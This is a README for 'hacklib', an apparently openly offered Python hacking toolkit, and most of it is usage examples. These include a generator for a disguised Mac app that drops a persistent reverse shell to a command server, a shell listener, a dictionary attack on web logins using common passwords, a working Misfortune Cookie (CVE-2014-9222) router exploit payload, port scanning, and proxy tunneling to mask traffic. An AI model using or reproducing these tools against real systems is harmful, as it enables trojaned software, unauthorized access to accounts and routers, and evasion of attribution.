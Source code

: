 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts interested in network security. It is currently in active development.

-
#### Installation
To get hacklib, simply run in command line:
```console
pip install hacklib
```
hacklib also has a user interface. To use it, you can do one of the following:

Download hacklib.py and run in console:
```console
python hacklib.py
----------------------------------------------
Hey. What can I do you for?


Enter the number corresponding to your choice.

1) Connect to a proxy
2) Target an IP or URL
3) Lan Scan
4) Exit

```
Or if you got it using pip:

```python
import hacklib
hacklib.userInterface()
```
-
#### Dependencies
Not all classes have external dependencies, but just in case you can do the following:
```python
hacklib.installDependencies()
```
-
#### Usage Examples
Reverse shell backdooring (Currently only for Macs):
```python
import hacklib

bd = hacklib.Backdoor()
# Generates an app that drops a persistent reverse shell into the system.
bd.create('127.0.0.1', 9090, 'OSX', 'Funny_Cat_Pictures')
# Takes the IP and port of the command server, the OS of the target, and the name of the .app
```
-

Shell listener (Use in conjunction with the backdoor):
```python
import hacklib
# Create instance of Server with the listening port
>>> s = hacklib.Server(9090)
>>> s.listen()
New connection ('127.0.0.1', 51101)
bash: no job control in this shell
bash-3.2$ whoami
leon
bash-3.2$ 
# Sweet!
```
In addition, you can also listen with netcat:
```
nc -l 9090
```
-
Universal login client for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# Logging into a gmail account
htmldata = ac.login('https://gmail.com', 'email', 'password')

# Check for a string in the resulting page
if 'Inbox' in htmldata: print 'Login Success.'
else: print 'Login Failed.'

# For logins using HTTP Basic Auth:
try: 
    htmldata = ac.login('http://somewebsite.com', 'admin', 'password')
except: pass #login failed
```
Simple dictionary attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports. Use ps.scan(IP, port_range=(n1, n2), timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```

Misfortune Cookie Exploit (CVE-2014-9222) using PortScanner:
```python
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', (80, 81))
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager 4.07. This version is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's memory allocation for web authentication with a null bye.
# The router's admin page is now fully accessible from any web browser.
```
-
FTP authentication:
```python
import hacklib
ftp = hacklib.FTPAuth('127.0.0.1', 21)
try:
    ftp.login('username', 'password')
except:
    print 'Login failed.'
```
-
Socks4/5 proxy scraping and tunneling
```python
>>> import hacklib
>>> import urllib2
>>> proxylist = hacklib.getProxies() # scrape recently added socks proxies from the internet
>>> proxy = hacklib.Proxy()
>>> proxy.connect(proxylist) # automatically find and connect to a working proxy in proxylist
>>> proxy.IP
u'41.203.214.58'
>>> proxy.port
65000
>>> proxy.country
u'KE'
# All Python network activity across all modules are routed through the proxy:
>>> urllib2.urlopen('http://icanhazip.com/').read() 
'41.203.214.58\n'
# Notes: Only network activity via Python are masked by the proxy.
# Network activity on other programs such as your webbrowser remain unmasked.
# To filter proxies by country and type:
# proxylist = hacklib.getProxies(country_filter = ('RU', 'CA', 'SE'), proxy_type='Socks5')
```
